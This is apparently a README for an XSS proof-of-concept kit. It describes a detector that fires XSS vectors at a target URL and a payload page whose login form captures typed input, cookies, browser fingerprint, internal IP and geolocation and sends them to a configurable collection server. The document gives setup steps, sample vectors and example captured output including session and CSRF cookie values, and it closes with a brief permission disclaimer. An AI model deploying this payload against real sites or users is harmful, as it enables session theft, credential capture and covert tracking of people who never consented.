 Proof of Concept (PoC) Guide
Step 1: Setting Up the Environment

Clone the Repository:

    git clone <repository-url>
    cd xss-poc

Install Dependencies:

npm install express body-parser

Configure the Host:

    Open server.js, xss_payload.html, and xss_detector.html in a text editor.
    Change the host variable to your own website or IP address.

Example:

    const host = 'your-website.com'; // Change this to your own website

Step 2: Running the Server

Start the Server:

    node server.js

You should see a message indicating that the server is running:

    Server running at http://your-website.com:3000

Step 3: Using the XSS Detector

    Open the XSS Detector:
        Open xss_detector.html in a web browser.

    Enter the URL to Test:
        In the input field, enter the URL of the website you want to test for XSS vulnerabilities.
        Click the "Test for XSS" button.

    Observe the Results:
        The script will test the URL with various XSS vectors and display the results on the page.
        If a potential XSS vulnerability is found, it will be indicated in the results.

Step 4: Using the XSS Payload

    Open the XSS Payload:
        Open xss_payload.html in a web browser.

    Interact with the Form:
        Fill out the login form with some sample data.
        Observe the browser's console and the server's terminal for captured data.

    Analyze the Captured Data:
        The payload will capture various types of data, including user agent, screen resolution, plugins, cookies, and more.
        This data will be sent to the server and logged in the terminal.

Example Outputs
Server Terminal Output

When you interact with the form in xss_payload.html, you should see output in the server terminal similar to this:

    Captured Headers: {
      'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
      'content-type': 'application/json',
      'accept': '*/*',
      'origin': 'http://your-website.com:3000',
      'referer': 'http://your-website.com:3000/xss_payload.html',
      'accept-encoding': 'gzip, deflate',
      'accept-language': 'en-US,en;q=0.9',
      'connection': 'close'
    }
    POST Body: {
      t: 'input',
      v: 'testuser',
      fp: {
    ua: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
    lang: 'en-US',
    screen: '1920x1080',
    plugins: ['Chrome PDF Viewer', 'Shockwave Flash', ...],
    cookies: 'sessionid=abc123; csrftoken=xyz456'
      },
      ts: '2023-10-01T12:34:56.789Z',
      canvasFingerprint: 'data:image/png;base64,...',
      internalIP: '192.168.1.1',
      location: { latitude: 40.7128, longitude: -74.0060 }
    }

XSS Detector Results

When you test a URL with xss_detector.html, you should see results similar to this:

    Testing for XSS vulnerabilities...
    Potential XSS vulnerability found with vector: <script>alert("XSS")</script>
    No XSS vulnerability found with vector: <img src="x" onerror="alert('XSS')">
    Potential XSS vulnerability found with vector: <svg/onload=alert("XSS")>
    No XSS vulnerability found with vector: <body onload=alert("XSS")>
    ...

Conclusion

This PoC demonstrates how to set up and use the XSS detection and payload scripts. By following the steps outlined above, you can test for XSS vulnerabilities and analyze the captured data. Always ensure you have permission to test for vulnerabilities on a website.
